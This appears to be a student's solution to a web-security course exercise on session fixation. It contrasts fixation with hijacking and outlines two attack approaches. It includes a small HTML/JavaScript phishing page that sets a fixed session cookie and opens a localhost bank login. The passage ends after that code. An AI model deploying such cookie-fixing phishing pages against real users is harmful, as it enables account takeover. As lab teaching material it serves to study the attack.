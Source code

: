   

### Exercise 5: Session Fixation

  
  
  

\_\_1. Explain the difference to Session Hijacking.\_\_ 

\_\_Solution :\_\_ In Session Fixation, the attacker forces the user to use the session of his choice, wherein  Session Hijacking, the logged-in user session is hijacked.

  
  

\_\_2. Sketch an attack that allows you to take over the session of a bank user\_\_

  

\_\_Solution :\_\_

\- Found two approches in hijacking a session using session fixation.

 1. This approch leverages the phishing attack. A victim is provided with a link and assumption is that he clicks the link.

 2. Manual way, setting the broswer cookie to desired value with key being \`USECURITYID\` (assuming that attacker has physical access to victim's browser).

  

\*\*Approach 1\*\* (Victim: \`Alex\`)

\- create a html file in your server folder with the following script,

 \`\`\`html

 <html>

 <script>

 function getURL(){

 document.cookie="USECURITYID=abcde";

  

 window.open("http://localhost/htdocs/index.php?", "\_blank");

 }

 </script>

 <head>

  

 </head>

 <body>

 <h1> Congo bro you are not gonna get hacked!! :D </h1>

 <button onclick="getURL()"> Login </button>

 </body>

 </html> 
